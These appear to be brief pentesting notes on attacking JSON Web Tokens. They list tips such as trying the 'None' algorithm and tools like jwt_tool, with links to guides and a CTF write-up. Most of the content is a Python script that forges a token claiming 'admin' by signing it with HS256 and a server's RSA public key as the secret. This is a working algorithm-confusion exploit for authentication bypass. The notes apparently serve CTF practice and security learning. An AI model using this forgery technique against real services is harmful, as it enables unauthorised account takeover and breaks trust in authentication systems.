 # Quick notes
- Try 'None' alg
- jwt-cracker
- jwt_tool
	- https://pentestbook.six2dez.com/enumeration/webservices/jwt
	- https://github.com/ticarpi/jwt_tool

# python script to create jwt
```python
import base64

import json

import jwt

public_key = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiDAf9SLppwz8WosnOowl\nCHIYsZuXUs9NxgAP+uhEnHau9aQJofG6jNTdAuMzzxGpV+qPWXUQg0h2S44sKcNn\nql1qUAk+LMOpeBfkKI0sYX8zg9E/RhK2RsDExZPzLOPkEFXW/3rI5T4i9aG2GGGe\nJwdnlPbfFZk6i1axY4g+iK12yWrSv+S4SQfrWhguDKlJamMM4F3SSVfrvpgQLsad\ni6bIYp8Aqv82ddHpPdszf4ecHyUXYJynNm+wVb2FfB3VpG7kZo+xA7nyZDgfEqDD\n2VVwGICVL6js7QFMNWNRw2pO4pAjKBCZCvRDvYi5RJn/7WhD2GXQ18DkXRNgR/i6\nvwIDAQAB\n-----END PUBLIC KEY-----"

payload = {"username": "admin", "pk": public_key}

enc = jwt.encode(payload, public_key, algorithm="HS256")

print(enc)
```

# Links
-  https://ironhackers.es/en/tutoriales/atacando-json-web-token-jwt/
-  https://rizemon.github.io/posts/htbcybersanta-ctf/#naughty-or-nice-day-5